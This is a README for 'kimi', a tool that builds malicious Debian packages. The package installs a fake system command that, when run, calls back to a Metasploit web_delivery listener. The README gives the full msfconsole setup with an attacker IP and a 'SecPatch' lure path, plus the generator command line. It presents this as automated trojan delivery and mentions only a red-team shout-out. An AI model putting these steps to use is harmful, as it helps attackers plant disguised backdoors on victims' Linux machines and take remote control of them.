 # kimi - Malicious Debian Package generator
Script to generate malicious debian packages (debain trojans).

# About & Usage :::
    Kimi is name inspired from "Kimimaro" one of my favriote charater from anime called "Naruto".

    Kimi is a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    Bash file injects and acts like some system command which when executed by victim 
    and attacker hits with session.

    Kimi basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.102
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.102
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    dreamer@mindless ~/Desktop/projects/kimi $ sudo python kimi.py -n nano -l 127.0.0.1 -V 1.0
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------

# ScreenShots :::

![Main Banner](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/main_banner.png)
![Kimi In Action](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/exploiting.png)

# Shouts to :::
  Suspicious Shell Activity [Red Team]
# Doubts? Insults?
  Twitter : @bofheaded
  
